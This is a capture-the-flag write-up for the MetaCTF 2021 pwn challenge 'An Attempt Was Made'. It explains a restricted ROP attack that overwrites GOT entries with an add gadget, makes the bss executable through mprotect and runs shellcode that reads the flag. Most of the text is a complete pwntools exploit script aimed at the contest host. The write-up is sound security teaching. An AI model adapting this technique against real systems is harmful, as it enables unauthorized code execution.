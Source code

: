 # An Attempt Was Made

was a pwn challenge from MetaCtf 2021.

A kind of restricted ROP. I got first blood on it, and it was pretty fun..

is has a little seccomp to forbid execve, as you can see:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/A.Attempt.Was.Made/pics/seccomp.png)

the binary itself as little protection, it is only partial RELRO, and no PIE

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/A.Attempt.Was.Made/pics/checksec.png)

the author of the challenge removed the libcsu_init gadgets, that ease the settings of rdi, rsi, rdx..

and very little usefull gadgets are available to set the registers...but..

the almost available add gadget (at least for gcc x64 produced binaries)  is present, with a gadget for setting rbp and rbx..

```
gadget_add = 0x0000000000401178 # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
gadget_pop = 0x00000000004013f2 # pop rbx ; pop rbp ; mov r12, qword ptr [rsp] ; add rsp, 8 ; ret
```

and with partial RELRO it's more than enough for us..

so for exploitation, we will change GOT entries with the add gadget, to make them point to various gadgets we need in libc..

as the libc is provided, we know the various offsets from functions addresses in GOT to the gadgets..

one time we change a got entry to make it point to a "pop rdi" gadget

the next time, to a "pop rdx",  etc...

you got the idea...

then with the ROP, we do a mprotect on bss to make it RWX..

we call a read, to copy our shellcode to the bss..

then we execute it...

and that's all..  here is the exploit...

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

gadget_add = 0x0000000000401178 # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
gadget_pop = 0x00000000004013f2 # pop rbx ; pop rbp ; mov r12, qword ptr [rsp] ; add rsp, 8 ; ret

def add_gadget(address, val):
  global gadget_add
  global gadget_pop
  return p64(gadget_pop)+p64(val & 0xffffffff)+p64(address+0x3d)+p64(0)+p64(gadget_add)

exe = ELF('./chall')
libc = ELF('./libc.so.6')
rop = ROP(exe)

host, port = "host.cg21.metaproblems.com", "3030"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)


pop_rbp = 0x0000000000401179 # pop rbp ; ret

# libc gadgets
gadget3 = 0x000000000008ff1d # pop rdi ; ret
gadget4 = 0x000000000008ef1b # pop rdx ; ret
gadget5 = 0x0000000000066337 # or esi, edx; movd xmm0, esi; ret;
gadget6 = 0x000000000004f549 # xchg eax, esi; ret;
gadget7 = 0x000000000006991a # mov rax, rbp; pop rbp; ret;
gadget8 = 0x000000000009cfc2 # syscall; ret;

payload = 'A'*0x10+p64(gadget3-libc.symbols['__isoc99_scanf'])+p64(0xdeadcafe)+p64(0xcafebabe)+p64(pop_rbp)+p64(exe.got['__isoc99_scanf']+0x3d)+p64(gadget_add)	# change __isoc99_scanf to gadget3

payload += add_gadget(exe.got['setvbuf'], (gadget7-libc.symbols['setvbuf']))	# change setvbuf to gadget7
payload += p64(pop_rbp)+p64(0x1000)				# set rbp=0x1000
payload += p64(exe.symbols['setvbuf'])+p64(0) 			# set rax = rbp
payload += add_gadget(exe.got['setvbuf'], (gadget6-gadget7))    # change setvbuf to gadget6
payload += p64(exe.symbols['setvbuf'])				# set esi = eax = 0x1000

payload += add_gadget(exe.got['setvbuf'], (gadget4-gadget6))			# change setvbuf to gadget4
payload += p64(exe.symbols['__isoc99_scanf'])+p64(0x404000)+p64(exe.symbols['setvbuf'])+p64(7)		# set rdi = 0x404000 ,  then  set rdx = 7

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget7-gadget3))		# change __isoc99_scanf to gadget7
payload += p64(pop_rbp)+p64(10)+p64(exe.symbols['__isoc99_scanf']) +p64(0)	# set rbp=10  then rax=rbp

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget8-gadget7))		# change __isoc99_scanf to gadget8
payload += p64(exe.symbols['__isoc99_scanf'])  					# syscall  --> mprotect(0x404000, 0x1000, 7)    -->   set bss to RWX

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget3-gadget8))             # change __isoc99_scanf to gadget3
payload += p64(exe.symbols['__isoc99_scanf']) + p64(0)		# set rdi = 0

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget7-gadget3))             	# change __isoc99_scanf to gadget7
payload += p64(pop_rbp)+p64(0x404800)+p64(exe.symbols['__isoc99_scanf']) + p64(0)	# set rbp = 0x404800, then rax = rbp

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget6-gadget7))                     # change __isoc99_scanf to gadget6
payload += p64(exe.symbols['__isoc99_scanf'])						# set rsi = 0x404800

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget4-gadget6))			# change __isoc99_scanf to gadget4
payload += p64(exe.symbols['__isoc99_scanf']) + p64(0x100)				# set rdx = 0x100

payload += add_gadget(exe.got['__isoc99_scanf'], (gadget7-gadget4))                     # change __isoc99_scanf to gadget7
payload += p64(pop_rbp)+p64(0)+p64(exe.symbols['__isoc99_scanf']) + p64(0)		# set rbp = 0 ,  then rax = rbp


payload += add_gadget(exe.got['__isoc99_scanf'], (gadget8-gadget7))                     # change __isoc99_scanf to gadget8
payload += p64(exe.symbols['__isoc99_scanf'])				#  syscall -->  read(0, 0x404800, 0x100)
payload += p64(0x404800)						# jump to our shellcode



p.sendlineafter('bytes?\n', str(len(payload)))

p.send(payload)

# send our shellcode to the ROP, dump flag.txt
shellc = asm(shellcraft.readfile('/chall/flag.txt',1))
p.send(shellc)

p.interactive()


```
*nobodyisnobody still pwning things...*

